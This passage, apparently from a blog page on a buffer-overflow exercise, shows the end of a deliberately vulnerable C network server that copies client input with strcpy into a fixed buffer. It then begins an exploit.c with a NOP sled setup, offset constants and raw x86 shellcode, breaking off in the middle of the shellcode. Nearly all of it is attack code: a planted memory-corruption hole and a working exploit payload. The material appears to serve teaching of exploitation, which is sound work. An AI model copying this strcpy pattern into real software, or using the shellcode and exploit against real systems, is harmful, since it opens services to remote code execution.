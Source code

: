	strcpy(buff, str);
	buff[0] = buff[0];
}

int main(int argc, char *argv[]) {
	char text[1024], ed[2];
	int listenfd, connfd;
	struct sockaddr_in serveraddr;
	ssize_t n;

	if(argc>1)
		calc(argv[1]);

	listenfd = socket(AF_INET, SOCK_STREAM, 0);

	bzero(&serveraddr, sizeof(serveraddr));
	serveraddr.sin_family = AF_INET;
	serveraddr.sin_addr.s_addr = htonl (INADDR_ANY);
	serveraddr.sin_port = htons (PORT);

	bind(listenfd, (SA *) &serveraddr, sizeof(serveraddr));

	listen(listenfd, LISTENQ);
	for( ; ;) {

		connfd = accept(listenfd, (SA *) NULL, NULL);

		do {
			write(connfd, "\nEingabe:\n", 10);
			n = read(connfd, text, sizeof(text) - 1);
			text[n] = 0;

			calc(text);
			write(connfd, "\nGedreht:\n", 10);
			write(connfd, text, strlen(text));

			printf("\n\n%d\n\n", text[0]);
			} while(text[0] != '!');

		close(connfd);
	}
	return 0;
}
{% endhighlight %}

### exploit.c
{% highlight C %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/errno.h>

#define DEFAULT_OFFSET  500
#define DEFAULT_BUFFER  600
#define NOP             0x90

char shellcode[] =
    "\xeb\x67\x5e\x89\x76\x4c\x8d\x46"
    "\x12\x89\x46\x50\x8d\x46\x15\x89"
    "\x46\x54\x8d\x46\x17\x89\x46\x58"
    "\x8d\x46\x1a\x89\x46\x5c\x8d\x46"
    "\x1d\x89\x46\x60\x8d\x46\x22\x89"
    "\x46\x64\x8d\x46\x25\x89\x46\x68"
    "\x8d\x46\x48\x89\x46\x6c\x31\xc0"
    "\x88\x46\x11\x88\x46\x14\x88\x46"
    "\x16\x88\x46\x19\x88\x46\x1c\x88"
    "\x46\x21\x88\x46\x24\x88\x46\x47"
    "\x88\x46\x4b\x89\x46\x70\xb0\x0b"
    "\x89\xf3\x8d\x4e\x4c\x8d\x56\x70"